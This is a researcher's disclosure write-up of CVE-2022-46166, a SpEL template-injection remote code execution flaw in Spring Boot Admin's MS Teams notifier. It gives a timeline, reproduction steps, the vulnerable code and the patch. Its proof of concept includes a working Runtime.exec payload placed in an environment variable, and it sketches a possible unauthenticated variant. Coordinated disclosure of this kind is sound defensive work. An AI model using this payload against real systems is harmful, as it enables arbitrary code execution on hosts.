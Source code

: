 ```yaml
---
tags:
  - CVE
  - Java
  - Spring Boot
  - Template Injection
---
```


# CVE-2022-46166 - Template Injection - Remote Code Execution

!!! info

    TL;DR: Java Gadget Evaluates in Teams Notify Expression
    CWE-94: Improper Control of Generation of Code ('Code Injection')

## Disclosure Timeline
The communication was very professional and fast from Codecentric:

* 28.11.2022 - Notification of vulnerability via E-Mail
* 02.12.2022 - Confirmation of the vulnerability
* 09.12.2022 - [Github Security Advisory](https://github.com/codecentric/spring-boot-admin/security/advisories/GHSA-w3x5-427h-wfq6) and CVE assignment
* 12.12.2022 - Disclosure coordination and confirmation of this blog with Codecentric

## Asset
* Github: https://github.com/codecentric/spring-boot-admin
* Tested Version: 2.7.7
* Last Commit: [85ec2b7]()

## Pre-Requisites
* Authenticated User
* Notification support enabled for Teams (potentially others)

## Issue
The _Spring Boot Admin_ application allows to evaluate code via a dynamic Spring Boot environment variable that can be controlled from within the web application. This will allow an attacker with access to the application to run arbitrary code on the host.

Summary of the attack steps:

1. Build servlet application with MS Teams notify support.
2. Create environment variable with Java gadget via app.
3. Trigger event for notification.
4. Code injection gets executed.


!!! info

    __IMPORTANT:__ As the following proof of concept will show only the easiest way to abuse this feature other ways can be possible, which could reduce the given pre-requisite. 

A scenario that should be checked is:

1. A `CustomNotifier` that notifies for unauthorized login events of the `auditevents` endpoint.
2. A user could wish to log the username of a failed authentication.
3. The attacker controlled username could contain a Java gadget which gets then executed.
4. Which resulting in an unauthenticated remote code execution.

## Proof of Concept
Clone the _Spring Boot Admin_ application:
```sh
git clone https://github.com/codecentric/spring-boot-admin.git
```
We will use the sample servlet application in the repository to create the test candidate for the research.

Add the following to the file `spring-boot-admin-samples/spring-boot-admin-sample-servlet/src/main/resources/application.yml`:
```yaml linenums="1" title="application.yml"
  boot:
    admin:
      notify:
        ms-teams:
          webhook-url: "http://localhost:8081"
```
This will enable the MS Teams notification feature.

As I don't have a valid Teams subscription to add an actual web hook we will just use any localhost address and accept the errors thrown from the application.

We will build the application with:
```sh
./mvnw clean package
```

After everything is finished we start the app with:
```sh
cd spring-boot-admin-samples/spring-boot-admin-sample-servlet/target
java -jar spring-boot-admin-sample-servlet.jar
```

This will start the servlet and the UI can be accessed at `http://localhost:8080`.
The username and password are `user:password` as detailed in the `application.yml` file we changed before.

Login and open the `Environment` tab for the instance.

`http://localhost:8080/instances/a10163509cb8/env`
![Environment](/CVE/img/Environment.png)

Add the following environment variable:

* Property name: `spring.boot.admin.notify.ms-teams.theme_color`
* Value: `#{T(java.lang.Runtime).getRuntime().exec('open -a calculator')}`
(The java gadget will open the calculator on MacOS. For Linux or windows the payload can be easily adapted.)

Update and refresh the context.

Now you need to trigger a notification. 

The easiest is when you delete the application.

`http://localhost:8080/applications`
![Application](/CVE/img/Application.png)

The following gif demonstrates the exploit:

![Exploit](/CVE/img/exploit.gif)

The vulnerable code can be found [here](https://github.com/codecentric/spring-boot-admin/blob/master/spring-boot-admin-server/src/main/java/de/codecentric/boot/admin/server/notify/MicrosoftTeamsNotifier.java#L233-L235):
```java linenums="233" title="MicrosoftTeamsNotifier.java"
	public void setThemeColor(String themeColor) {
		this.themeColor = parser.parseExpression(themeColor, ParserContext.TEMPLATE_EXPRESSION);
	}
```

## Remediation

For the remediation review the patch [here](https://github.com/codecentric/spring-boot-admin/commit/320eab19ff76e2c012623a1eb53af6f4ae26e20b).

The `org.springframework.expression.spel.support.SimpleEvaluationContext`([see docs](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html)) class replaces the `org.springframework.expression.spel.support.StandardEvaluationContext` class.

> In many cases, the full extent of the SpEL language is not required and should be meaningfully restricted. Examples include but are not limited to data binding expressions, property-based filters, and others. To that effect, SimpleEvaluationContext is tailored to support only a subset of the SpEL language syntax, e.g. excluding references to Java types, constructors, and bean references. 